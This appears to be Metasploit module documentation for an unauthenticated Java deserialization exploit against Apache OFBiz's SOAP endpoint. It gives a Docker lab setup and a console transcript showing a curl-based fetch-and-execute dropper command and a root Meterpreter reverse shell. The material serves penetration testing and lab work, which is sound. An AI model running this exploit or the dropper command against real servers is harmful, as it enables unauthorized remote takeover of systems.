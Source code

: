 ## Vulnerable Application

### Description

This module exploits a Java deserialization vulnerability in Apache
OFBiz's unauthenticated SOAP endpoint `/webtools/control/SOAPService` for
versions prior to 17.12.06.

### Setup

You can use <https://hub.docker.com/r/opensourceknight/ofbiz>.

1. Initialize the database with demo data (`INIT_DB=2`) and bind to ports 8080 and 8443
    * `docker run -p 8080:8080 -p 8443:8443  --rm -e INIT_DB=2 opensourceknight/ofbiz:15.12`

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Scenarios

### Apache OFBiz from [Docker](#setup).

```
msf6 > use exploit/linux/http/apache_ofbiz_deserialization_soap 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_ofbiz_deserialization_soap) > options

Module options (exploit/linux/http/apache_ofbiz_deserialization_soap):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.128  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8443             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8081             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/apache_ofbiz_deserialization_soap) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target can deserialize arbitrary data.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8081/qL5QfV
[*] Local IP: http://192.168.250.87:8081/qL5QfV
[*] Client 172.17.0.2 (curl/7.38.0) requested /qL5QfV
[*] Sending payload to 172.17.0.2 (curl/7.38.0)
[+] Successfully executed command: curl -so /tmp/wHwoartY http://192.168.159.128:8081/qL5QfV;chmod +x /tmp/wHwoartY;/tmp/wHwoartY;rm -f /tmp/wHwoartY
[*] Sending stage (3012516 bytes) to 172.17.0.2
[*] Command Stager progress - 100.00% done (114/114 bytes)
[*] Meterpreter session 9 opened (192.168.159.128:4444 -> 172.17.0.2:47186) at 2021-03-30 17:13:01 -0400
[*] Server stopped.

meterpreter > getuid
Server username: root @ bac44466b17e (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 8.4 (Linux 5.10.22-100.fc32.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

